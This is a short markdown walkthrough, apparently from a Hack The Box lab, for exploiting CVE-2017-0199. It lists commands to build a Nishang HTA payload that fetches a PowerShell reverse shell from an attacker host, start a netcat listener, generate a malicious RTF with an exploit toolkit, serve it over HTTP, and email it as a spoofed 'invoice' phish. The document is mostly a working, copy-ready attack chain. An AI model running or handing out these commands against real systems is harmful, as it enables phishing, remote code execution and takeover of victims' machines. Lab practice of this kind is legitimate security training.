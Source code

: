 # CVE-2017-0199

## Exploitation Steps
1. Create the HTA Payload with Nishang (Out-HTA.ps1)
 - Open PowerShell on Kali (pwsh)
 - Type: ```Out-HTA -PayloadURL http://10.10.16.4/shell.ps1```
 - File is written to disk: "HTA written to /www/WindDef_WebInstall.hta"
 - [Optional] rename file to shell.hta

2. Create a PowerShell shell, again using Nishang (Invoke-PowerShellTcp.ps1)
 - Modify the file to include the Invoke-PowerShellTCP method at the bottom of the script
 - Make sure to change the Reverse IP Address
 - [Optional] rename the file to shell.ps1

3. Start a reverse handler with Netcat
 - nc -nlvp <port>

4. Create the malicious RTF document with cve-2017-0199.py
 - python2 cve-2017-0199_toolkit.py -M gen -t RTF -w <name of rtf> -u 'http://location_to_hta' -x 0

5. Start up a python listner on port 80
 - sudo python -m http.server 80

6. Send the phish
 - sendemail -t nico@megabank.com -f badguy@malicious.local -s reel.htb.local -u RTF -m "Important" -a invoice.rtf

7. Catch the shell and move back to enumeration

## Additional Sample Commands

```
python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u 'http://10.10.16.4/shell.hta' -x 0
sendemail -t nico@megabank.com -f badguy@malicious.local -s reel.htb.local -u RTF -m "Important" -a invoice.rtf
```